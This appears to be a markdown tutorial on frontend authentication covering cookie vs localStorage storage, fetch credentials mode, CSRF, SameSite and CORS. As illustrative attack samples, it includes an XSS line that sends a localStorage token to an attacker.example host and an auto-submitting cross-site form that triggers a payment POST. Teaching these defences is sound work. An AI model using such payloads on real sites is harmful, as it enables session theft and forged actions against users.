


# Auth Flow End to End — Part 1

You have already built every piece of authentication on the server. You hashed
the password, you issued the session, you signed the token, you wrote the
middleware that reads it. What you may never have traced is the *whole* journey:
a user types an email into a form in Chrome, and eleven milliseconds later your
`request.user` is populated on a completely different machine.

This file follows that journey once, slowly, naming every part. Part 1 covers
the login itself and the browser's side of credential storage: where the proof
of identity lives, how it travels back, and the three things that break when it
travels wrong — CSRF, CORS and credential mode. Part 2 covers what you build on
top: route protection, reading the current user, global 401 handling, logout,
and auth in server components.

**Authentication** means proving who you are; **authorization** means deciding
what you may do. This file is about the first. The second is
[06-authorization/](../../backend-fundamentals/06-authorization/).

> **📌 In one line:** the browser holds one small piece of proof, and every
> important decision in frontend auth is about *where* that proof is stored and
> *when* it is sent.

## Table of Contents

1. [One Login, Named Part by Part](#one-login-named-part-by-part)
2. [The Whole Flow in One Diagram](#the-whole-flow-in-one-diagram)
3. [Where the Credential Lives in the Browser](#where-the-credential-lives-in-the-browser)
4. [HttpOnly Is the Whole Point](#httponly-is-the-whole-point)
5. [Cookie vs localStorage: the Honest Comparison](#cookie-vs-localstorage-the-honest-comparison)
6. [Sent Automatically or Attached by Hand](#sent-automatically-or-attached-by-hand)
7. [BROKEN vs FIXED: the fetch That Forgot Its Credentials](#broken-vs-fixed-the-fetch-that-forgot-its-credentials)
8. [CSRF: the Price of Automatic Sending](#csrf-the-price-of-automatic-sending)
9. [CORS and Credentials: the Combination That Breaks](#cors-and-credentials-the-combination-that-breaks)
10. [Common Mistakes](#common-mistakes)
11. [Questions to Test Yourself](#questions-to-test-yourself)
12. [Related](#related)

---

## One Login, Named Part by Part

Think about a hotel. You arrive at the desk and show your passport. The clerk
checks it, then gives you a **key card**. The passport stays in your pocket; you
never show it again. From then on, every door you open reads the key card.

The card is not your identity. It is a short-lived *reference* to a decision the
clerk already made. If you lose it, someone else opens your room — which is why
it expires at checkout and can be cancelled without touching your passport.
That is exactly a login:

| Hotel | Your SaaS app |
|---|---|
| Passport | Email and password |
| Desk clerk checking it | `POST /api/v1/auth/login` verifying the hash |
| Key card | Session cookie or access token |
| Your pocket | The browser's cookie jar or `localStorage` |
| Reader on each door | Your auth middleware on each request |
| Cancelling the card at the desk | Deleting the session row server-side |

Everything below is about that card.

> **📌 Remember:** the password is sent exactly once. Every request after that
> carries the credential the server issued, not the password.

---

## The Whole Flow in One Diagram

One login, from keypress to the next authenticated request.



Notice the two arrows that come *from the browser itself* rather than from your
code. Storing the cookie and attaching it to the next request are things you
never wrote; the browser does them because of headers your server sent. Most
frontend auth confusion comes from forgetting those two steps exist.

The server half is already written up in detail — sessions in
[03-cookies-and-sessions-part-1.md](../../backend-fundamentals/05-authentication/03-cookies-and-sessions-part-1.md),
tokens in [04-jwt-part-1.md](../../backend-fundamentals/05-authentication/04-jwt-part-1.md).
This file stays on the browser's side of the wire.

---

## Where the Credential Lives in the Browser

A browser gives you three realistic places to keep the key card.

1. **An `HttpOnly` cookie.** Set by the server, unreadable by JavaScript, sent
   automatically on matching requests.
2. **`localStorage` or `sessionStorage`.** Set by your code, readable by any
   script on the page, sent only if you attach it.
3. **A plain variable in memory.** Gone on refresh, readable by any script,
   sent only if you attach it.

Option 3 sounds weak but is useful in one design: a short-lived access token in
memory only, with the long-lived refresh token in an `HttpOnly` cookie. Part 2
shows that pattern.

The real debate in every team is between options 1 and 2, and it is usually
argued badly. Here is the honest version.

---

## HttpOnly Is the Whole Point

`HttpOnly` is a flag the server puts on a cookie:

```text
Set-Cookie: session=aa1b...; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=604800
```

`HttpOnly` means **JavaScript running on the page cannot read this cookie**.
`document.cookie` will not show it. Only the browser itself touches it, when it
builds an outgoing request. That sounds like a small inconvenience. It is the
entire security argument.

**XSS** — cross-site scripting — is the bug where an attacker gets their
JavaScript to run on your page. It happens through an unescaped user bio, a
dependency that was compromised, a `dangerouslySetInnerHTML` someone added in a
hurry. Assume it will happen to you once.

Now compare the blast radius:

```ts
// What an XSS payload does in a localStorage app — one line, total compromise
fetch('https://attacker.example/collect', {
  method: 'POST',
  body: localStorage.getItem('access_token') ?? '',
})
```

The attacker now has your token on their own machine. They can use it from
anywhere, for as long as it lives, with no browser involved.

Run the same payload in an `HttpOnly` cookie app and `document.cookie` simply
does not contain the session. The attacker gets nothing to take away. They can still *act as the user* while
their script is running in that tab — they can call `POST /api/v1/invoices`
and the cookie will ride along. That is bad. But it is bounded: it stops when
the tab closes, it is visible in your logs as traffic from the user's own
browser, and you can kill it by deleting one session row.

> **⚠️ Warning:** `HttpOnly` does not prevent XSS. It limits what XSS can
> steal. "Stolen token, usable for a week from anywhere" and "script that can
> act only while the tab is open" are very different incidents.

---

## Cookie vs localStorage: the Honest Comparison

| Concern | `HttpOnly` cookie | `localStorage` |
|---|---|---|
| Readable by page JavaScript | **No** | Yes |
| Survives an XSS bug | **Mostly yes** — nothing to exfiltrate | **No** — token is taken |
| Sent automatically | Yes, by the browser | No, you attach it |
| Vulnerable to CSRF | **Yes** — needs `SameSite` or a token | No, nothing is automatic |
| Survives a page refresh | Yes | Yes |
| Works across subdomains | Yes, with a `Domain` attribute | No, one origin only |
| Works for a native mobile client | Awkward | Natural |
| Size limit | About 4 KB | About 5 MB |
| Revocation | Easy with server sessions | Hard with stateless JWTs |
| Setup cost | CORS and `SameSite` must be right | Almost none |

**The recommendation for a web application you control on both sides: use an
`HttpOnly`, `Secure`, `SameSite` cookie.** CSRF has a well-understood, cheap
defence that you configure once. XSS token theft has no defence at all once the
token is readable.

`localStorage` earns its place in one case: a client that is not your browser —
a React Native app, a desktop client, a third-party integration. Those cannot
use your cookie anyway and get an `Authorization: Bearer ...` token instead; see
[06-api-keys-and-machine-auth-part-1.md](../../backend-fundamentals/05-authentication/06-api-keys-and-machine-auth-part-1.md).

> **💡 Tip:** "We use JWTs" and "we store the credential in `localStorage`" are
> two separate decisions that get confused constantly. You can absolutely put a
> JWT inside an `HttpOnly` cookie, and for a web app you usually should.

---

## Sent Automatically or Attached by Hand

This is the practical difference you feel every day in your `fetch` calls.

A cookie belongs to an **origin** — scheme plus host plus port, like
`https://api.acme.com`. Before each request the browser looks in its jar, finds
the cookies whose `Domain` and `Path` match the target URL, and writes them into
the `Cookie` header. Your JavaScript is never consulted.

A token in `localStorage` is just a string. The browser has no idea it means
anything. If you do not put it in a header, it is not sent.

```ts
// Cookie-based auth: tell fetch to include credentials
const response = await fetch('https://api.acme.com/v1/projects', {
  credentials: 'include', // required for a cross-origin request
})

// Token-based auth: you attach the header yourself
const response = await fetch('https://api.acme.com/v1/projects', {
  headers: { Authorization: `Bearer ${accessToken}` },
})
```

The `credentials` option has three values, and the default surprises people:

| Value | Cookies sent on same-origin | Cookies sent cross-origin |
|---|---|---|
| `'omit'` | No | No |
| `'same-origin'` (the default) | **Yes** | **No** |
| `'include'` | Yes | Yes |

So if your React app is served from `https://app.acme.com` and your API is on
`https://api.acme.com`, those are **different origins**, and the default sends
no cookie. Your login looks like it succeeded, and the very next request is a
401.

> **📌 Remember:** same-origin requests get cookies for free. Cross-origin
> requests need `credentials: 'include'` on every single call — which is one
> more reason to write one wrapper function instead of calling `fetch` directly
> in twenty components.

---

## BROKEN vs FIXED: the fetch That Forgot Its Credentials

A real afternoon lost. Login returns 200. The cookie is visible in devtools
under Application. The next request is 401.

```ts
// ❌ BROKEN — login works, everything after it is 401
export async function login(email: string, password: string): Promise<void> {
  await fetch('https://api.acme.com/v1/auth/login', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ email, password }),
  })
}

export async function getProjects(): Promise<Project[]> {
  const response = await fetch('https://api.acme.com/v1/projects')
  return response.json() as Promise<Project[]>
}
```

Two separate failures hide in there. The login response's `Set-Cookie` is
**ignored** by the browser unless the request itself was made with credentials
enabled, and the `getProjects` call sends no cookie because cross-origin is the
default-off case.

```ts
// ✅ FIXED — credentials on both the login and every call after it
const API = 'https://api.acme.com/v1'

export async function apiFetch(path: string, init: RequestInit = {}): Promise<Response> {
  return fetch(`${API}${path}`, {
    ...init,
    credentials: 'include', // accept Set-Cookie, and send Cookie back
    headers: { 'Content-Type': 'application/json', ...init.headers },
  })
}

export async function login(email: string, password: string): Promise<void> {
  const response = await apiFetch('/auth/login', {
    method: 'POST',
    body: JSON.stringify({ email, password }),
  })
  if (!response.ok) throw new Error('Login failed')
}
```

The server side must cooperate, and that is the CORS section below.

---

## CSRF: the Price of Automatic Sending

**CSRF** — cross-site request forgery — is the direct consequence of the
convenience you just enabled. If the browser attaches your cookie to *every*
request to your API, it does so even when the request was started by a page you
do not control.

The attack, concretely. Your user is logged into `app.acme.com`. In another tab
they open `cheap-flights.example`, which contains:

```html
<!-- The user never clicks anything. The form submits on load. -->
<form action="https://api.acme.com/v1/invoices/9/pay" method="POST" id="f"></form>
<script>document.getElementById('f').submit()</script>
```

The browser sends that POST to your API **with the session cookie**, because
cookies are attached by destination, not by who asked. Your server sees a
perfectly authenticated request. Notice what the attacker never needs: to read
your cookie, or to see your response. Only the side effect matters.



**`SameSite` kills most of this.** It is a cookie attribute that tells the
browser when a cookie may travel on a request started by another site.

| `SameSite` value | Cookie sent on a cross-site POST | Cookie sent on a cross-site top-level link | Notes |
|---|---|---|---|
| `Strict` | No | **No** | Safest; a link from email lands you logged out |
| `Lax` | **No** | Yes, for GET navigation | The modern browser default; good balance |
| `None` | Yes | Yes | Requires `Secure`; only for deliberate cross-site use |

With `SameSite=Lax`, the attack above simply fails — a cross-site POST carries
no cookie. That covers the overwhelming majority of real CSRF.

**You still need a CSRF token when:**

- You set `SameSite=None` because your frontend and API are on genuinely
  different sites and you need the cookie cross-site.
- You must support old browsers that ignore `SameSite`.
- A state-changing action is reachable by `GET` — which it should not be. See
  [03-http-methods.md](../../backend-fundamentals/01-http-foundations/03-http-methods.md)
  on safe methods.

The frontend's job with a CSRF token is small: read it from a readable
(non-`HttpOnly`) cookie or a bootstrap endpoint, and echo it in a header.

```ts
function readCsrfToken(): string {
  const match = document.cookie.match(/(?:^|;\s*)csrf_token=([^;]+)/)
  return match ? decodeURIComponent(match[1]) : ''
}

export async function apiMutate(path: string, init: RequestInit): Promise<Response> {
  return fetch(`${API}${path}`, {
    ...init,
    credentials: 'include',
    headers: { ...init.headers, 'X-CSRF-Token': readCsrfToken() },
  })
}
```

The token being readable by JavaScript is fine and intentional: the defence is
that a *different site's* JavaScript cannot read your cookies, so it cannot
produce the header. The server-side half of this is in
[11-api-security/](../../backend-fundamentals/11-api-security/) and
[01-authentication-basics.md](../../backend-fundamentals/05-authentication/01-authentication-basics.md).

> **⚠️ Warning:** a `Bearer` token in `localStorage` is immune to CSRF, because
> nothing is automatic. People use this as the winning argument for
> `localStorage`. It is a real point, but you are trading a problem with a
> one-line fix (`SameSite=Lax`) for a problem with no fix (token theft by XSS).

---

## CORS and Credentials: the Combination That Breaks

**CORS** — cross-origin resource sharing — is the browser rule that stops a page
on one origin from reading a response from another origin unless that other
origin agrees. The agreement is expressed in response headers.

You have read the server side in
[03-cors.md](../../backend-fundamentals/11-api-security/03-cors.md). Here is the
one combination that breaks every team exactly once.

During development someone gets CORS working with the wildcard:

```ts
// ❌ BROKEN — works for public reads, dies the moment credentials are needed
response.header('Access-Control-Allow-Origin', '*')
```

Then you switch the frontend to `credentials: 'include'`, and the request fails
before your handler even runs. The browser console says:

```text
Access to fetch at 'https://api.acme.com/v1/projects' from origin
'https://app.acme.com' has been blocked by CORS policy: The value of the
'Access-Control-Allow-Origin' header in the response must not be the
wildcard '*' when the request's credentials mode is 'include'.
```

The rule is deliberate. `*` means "any site may read this". Combined with
cookies, that would mean "any site may read this *as the logged-in user*",
which is a total loss of same-origin protection. So the specification forbids
the pair.

```ts
// ✅ FIXED — reflect one allowed origin, and say credentials are allowed
const ALLOWED_ORIGINS = new Set([
  'https://app.acme.com',
  'http://localhost:3000',
])

export function cors(request: Request, response: Response, next: NextFunction): void {
  const origin = request.headers.origin
  if (typeof origin === 'string' && ALLOWED_ORIGINS.has(origin)) {
    response.setHeader('Access-Control-Allow-Origin', origin)
    response.setHeader('Access-Control-Allow-Credentials', 'true')
    response.setHeader('Vary', 'Origin') // never cache one origin's answer for another
  }
  next()
}
```

Three details that cost people hours:

- **`Access-Control-Allow-Credentials: true`** is required on the response as
  well as `credentials: 'include'` on the request. Both sides must opt in.
- **`Vary: Origin`** stops a cache serving one origin's headers to another.
- The **preflight** `OPTIONS` request needs the same headers plus
  `Access-Control-Allow-Headers` for anything custom such as `X-CSRF-Token`. A
  failed preflight prints the same console error for a request you never sent.

> **💡 Tip:** the cleanest way out of all of this is to put your frontend and
> API on the **same origin** — `app.acme.com` serves the UI and proxies
> `/api/*` to the backend. Then there is no CORS, no preflight, and
> `credentials: 'same-origin'` already works. Next.js rewrites or an Nginx
> `location /api` block do this in a few lines.

---

> **➡️ Continued in [Part 2](./01-auth-flow-end-to-end-part-2.md)** — route
> protection and why a client redirect is not security, reading the current
> user, handling 401 in one place, refresh rotation, logout that actually
> works, and auth in server components.

## Common Mistakes

| Mistake | Why it is wrong | Do this instead |
|---|---|---|
| Storing a JWT in `localStorage` for a browser app | One XSS bug exports a token usable from anywhere for its whole lifetime | Put it in an `HttpOnly`, `Secure`, `SameSite` cookie |
| Forgetting `credentials: 'include'` cross-origin | The `Set-Cookie` is ignored and no cookie is sent back; every call is 401 | One `apiFetch` wrapper that always sets it |
| `Access-Control-Allow-Origin: *` with cookies | The browser refuses the combination outright | Reflect an allowlisted origin plus `Allow-Credentials` and `Vary: Origin` |
| Believing `HttpOnly` prevents XSS | It only stops theft of the cookie; the script can still act in that tab | Fix the XSS too: escape output, review `dangerouslySetInnerHTML` |
| Adding a CSRF token but leaving `SameSite=None` unthought | The token works, but you took on cross-site exposure for no reason | Default to `SameSite=Lax` and add a token only if you truly need cross-site |
| Treating "JWT vs session" and "cookie vs localStorage" as one decision | They are independent; a JWT in a cookie is a normal, good design | Decide the format and the storage separately |

## Questions to Test Yourself

1. Your login returns 200 and devtools shows the cookie, but the next request
   is 401. Name two different causes and how you would tell them apart.
2. `HttpOnly` does not stop XSS. So what exactly does it buy you, in terms of
   what an attacker walks away with?
3. Why does the browser refuse `Access-Control-Allow-Origin: *` together with
   credentials? Explain the attack that rule prevents.
4. A CSRF attacker cannot read your cookie or your response. Why is the attack
   still worth doing?
5. Why does `SameSite=Lax` stop the auto-submitting form attack, and what kind
   of cross-site request does it still allow?
6. You put the CSRF token in a cookie that JavaScript *can* read. Why is that
   not self-defeating?
7. What would change in all of the above if you served the frontend and the API
   from the same origin?

## Related

- [03-cookies-and-sessions-part-1.md](../../backend-fundamentals/05-authentication/03-cookies-and-sessions-part-1.md)
  and [part 2](../../backend-fundamentals/05-authentication/03-cookies-and-sessions-part-2.md)
  — the server side of the cookie this file stores and sends.
- [04-jwt-part-1.md](../../backend-fundamentals/05-authentication/04-jwt-part-1.md)
  and [part 2](../../backend-fundamentals/05-authentication/04-jwt-part-2.md) —
  what is inside the token, and why its format is independent of its storage.
- [03-cors.md](../../backend-fundamentals/11-api-security/03-cors.md) — the
  server configuration that makes the credentialed request legal.
- [01-owasp-top-10-for-apis.md](../../backend-fundamentals/11-api-security/01-owasp-top-10-for-apis.md)
  — where XSS and CSRF sit among the risks you defend against.
- [05-talking-to-your-api-part-2.md](../01-react-fundamentals/05-talking-to-your-api-part-2.md)
  — the `fetch` and CORS basics this file assumes.
- [01-auth-flow-end-to-end-part-2.md](./01-auth-flow-end-to-end-part-2.md) —
  everything you build on top of the credential.
